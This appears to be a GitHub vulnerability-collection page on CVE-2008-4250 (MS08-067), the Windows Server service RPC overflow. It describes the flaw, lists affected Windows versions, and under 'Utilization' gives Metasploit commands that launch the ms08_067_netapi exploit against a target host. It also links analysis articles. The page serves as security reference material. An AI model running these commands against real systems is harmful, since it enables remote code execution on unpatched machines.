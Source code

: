 ### CVE-2008-4250

#### Describe

The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary code via a crafted RPC request that triggers the overflow during path canonicalization, as exploited in the wild by Gimmiv.A in October 2008, aka "Server Service Vulnerability."


#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2003 |                  |         | SP1    |                    |
| Windows Server 2003 |                  |         | SP2    | &#10004; |
| Windows Server 2003 |                  |         |        |                    |
| Windows Server 2008 | X86/X64          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         |        |                    |
| Windows Xp          |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP3    |                    |
| Windows Xp          |                  |         |        |                    |

#### Utilization

use MSF Test system Windows Server 2003 SP2 x86

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.14
run
```

![image-20200823143331505](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2008-4250_win2003_x86_msf.png)

#### Analyze
- https://bbs.pediy.com/thread-251219.htm
- https://www.jianshu.com/p/d086eb1ab0a6